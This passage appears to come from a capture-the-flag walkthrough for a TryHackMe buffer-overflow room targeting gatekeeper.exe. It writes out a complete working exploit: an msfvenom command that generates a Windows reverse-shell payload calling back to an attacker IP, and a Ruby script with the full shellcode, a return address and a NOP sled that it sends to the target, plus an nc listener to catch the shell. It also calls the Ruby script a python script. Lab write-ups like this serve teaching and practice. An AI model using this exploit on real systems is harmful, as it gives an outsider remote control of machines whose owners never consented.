


Now, we are ready to get a reverse shell aka own our Windows VM machine via BOF. Let's generate our payload, don't forget to change LHOST to your Kali machine IP address:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.105 LPORT=5555 -f rb -a x86 --platform windows -b "\x00\x0A"

-b option allows us to exclude the badchars we have found earlier.
```
 

We need to copy and paste this into our getting a shell template:
```Ruby
buff = "A"*146
buff += "\xc3\x14\x04\x08"
buff += "\x90"*8
buff += "\xbb\xfb\xad\xee\xa2\xda\xda\xd9\x74\x24\xf4\x5a\x31\xc9" +
"\xb1\x52\x31\x5a\x12\x83\xc2\x04\x03\xa1\xa3\x0c\x57\xa9" +
"\x54\x52\x98\x51\xa5\x33\x10\xb4\x94\x73\x46\xbd\x87\x43" +
"\x0c\x93\x2b\x2f\x40\x07\xbf\x5d\x4d\x28\x08\xeb\xab\x07" +
"\x89\x40\x8f\x06\x09\x9b\xdc\xe8\x30\x54\x11\xe9\x75\x89" +
"\xd8\xbb\x2e\xc5\x4f\x2b\x5a\x93\x53\xc0\x10\x35\xd4\x35" +
"\xe0\x34\xf5\xe8\x7a\x6f\xd5\x0b\xae\x1b\x5c\x13\xb3\x26" +
"\x16\xa8\x07\xdc\xa9\x78\x56\x1d\x05\x45\x56\xec\x57\x82" +
"\x51\x0f\x22\xfa\xa1\xb2\x35\x39\xdb\x68\xb3\xd9\x7b\xfa" +
"\x63\x05\x7d\x2f\xf5\xce\x71\x84\x71\x88\x95\x1b\x55\xa3" +
"\xa2\x90\x58\x63\x23\xe2\x7e\xa7\x6f\xb0\x1f\xfe\xd5\x17" +
"\x1f\xe0\xb5\xc8\x85\x6b\x5b\x1c\xb4\x36\x34\xd1\xf5\xc8" +
"\xc4\x7d\x8d\xbb\xf6\x22\x25\x53\xbb\xab\xe3\xa4\xbc\x81" +
"\x54\x3a\x43\x2a\xa5\x13\x80\x7e\xf5\x0b\x21\xff\x9e\xcb" +
"\xce\x2a\x30\x9b\x60\x85\xf1\x4b\xc1\x75\x9a\x81\xce\xaa" +
"\xba\xaa\x04\xc3\x51\x51\xcf\x2c\x0d\x59\x66\xc5\x4c\x59" +
"\x6d\xa6\xd8\xbf\xe7\xd8\x8c\x68\x90\x41\x95\xe2\x01\x8d" +
"\x03\x8f\x02\x05\xa0\x70\xcc\xee\xcd\x62\xb9\x1e\x98\xd8" +
"\x6c\x20\x36\x74\xf2\xb3\xdd\x84\x7d\xa8\x49\xd3\x2a\x1e" +
"\x80\xb1\xc6\x39\x3a\xa7\x1a\xdf\x05\x63\xc1\x1c\x8b\x6a" +
"\x84\x19\xaf\x7c\x50\xa1\xeb\x28\x0c\xf4\xa5\x86\xea\xae" +
"\x07\x70\xa5\x1d\xce\x14\x30\x6e\xd1\x62\x3d\xbb\xa7\x8a" +
"\x8c\x12\xfe\xb5\x21\xf3\xf6\xce\x5f\x63\xf8\x05\xe4\x93" +
"\xb3\x07\x4d\x3c\x1a\xd2\xcf\x21\x9d\x09\x13\x5c\x1e\xbb" +
"\xec\x9b\x3e\xce\xe9\xe0\xf8\x23\x80\x79\x6d\x43\x37\x79" +
"\xa4"


require 'socket'

TCPSocket.open('192.168.0.227',31337){ |s| s.puts buff}
```
Before running the Ruby script, let's start a reverse shell in another terminal:
```bash
nc -nlvp 5555
```


Now, let's run our python script:
```python ./shellcode.py
```
When we check our nc listener, we can see that we have a reverse shell now!...



Woohoo, we are connected to this machine by exploiting BOF vulnerability that gatekeeper.exe has so let's try our final script on THM platform now.

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
